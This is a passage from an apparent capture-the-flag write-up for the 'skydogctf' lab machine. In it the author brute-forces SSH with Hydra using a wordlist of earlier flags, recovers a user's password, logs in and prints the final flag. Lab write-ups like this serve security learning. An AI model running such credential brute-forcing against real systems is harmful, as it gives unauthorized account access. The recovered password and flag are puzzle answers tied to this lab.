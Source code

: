No dice.

_/me thinks_

_time passes..._

What about those flags? I'll put the hashes and plaintext into a text file and see if I get lucky with them.

```sourceCode
root@kali:~/skydog# hydra -l wernerbrandes -P flags.txt ssh://192.168.56.101:22Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://www.thc.org/thc-hydra) starting at 2016-06-07 16:55:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 8 tasks per 1 server, overall 64 tasks, 8 login tries (l:1/p:8), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.56.101   login: wernerbrandes   password: leroybrown
1 of 1 target successfully completed, 1 valid password found
```

Oh Hydra, you're so good :)

```sourceCode
root@kali:~/skydog# ssh wernerbrandes@192.168.56.101wernerbrandes@192.168.56.101's password:
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.19.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Jun  7 11:55:48 EDT 2016

  System load:  0.0               Processes:           104
  Usage of /:   8.1% of 17.34GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 192.168.56.101
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

30 packages can be updated.
21 updates are security updates.

Last login: Tue Jun  7 11:51:09 2016 from 192.168.56.102
wernerbrandes@skydogctf:~$ cat flag.tt
cat: flag.tt: No such file or directory
wernerbrandes@skydogctf:~$ cat flag.txt
flag{82ce8d8f5745ff6849fa7af1473c9b35}
```

There it is :)
